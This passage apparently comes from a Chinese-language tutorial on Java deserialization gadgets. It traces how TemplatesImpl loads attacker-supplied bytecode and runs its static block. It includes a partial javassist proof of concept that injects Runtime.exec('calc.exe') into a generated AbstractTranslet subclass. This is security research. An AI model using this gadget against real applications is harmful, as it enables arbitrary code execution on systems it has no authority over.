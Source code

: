 ```java
        }
    }
}
```

生成的 class 文件内容是这样的：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

public class EvilCat764977622712900 {
    static {
        System.out.println("evil code");
    }

    public EvilCat764977622712900() {
    }
}
```

这里的 static 语句块会在创建类实例的时候执行。

跟进 TemplatesImpl  类：

![1](/img/346.png)

在 newTransformer 中调用了 getTransletInstance 方法：

![1](/img/347.png)

首先先跟进 defineTransletClasses 方法：

![1](/img/348.png)

这里通过 loader.defineClass 的方式将 bytecodes 还原为 Class，接着在外面又调用了`_class[_transletIndex].newInstance`方法实例化还原的Class。此时 static 语句块成功执行。

也就是说，我们可以通过 TemplatesImpl#newTransformer 方法来执行恶意类的 static 语句块。

POC如下：

```java
import javassist.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.ClassLoader;
import java.lang.reflect.Field;

public class javassit_test {
    public static void createPseson() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
```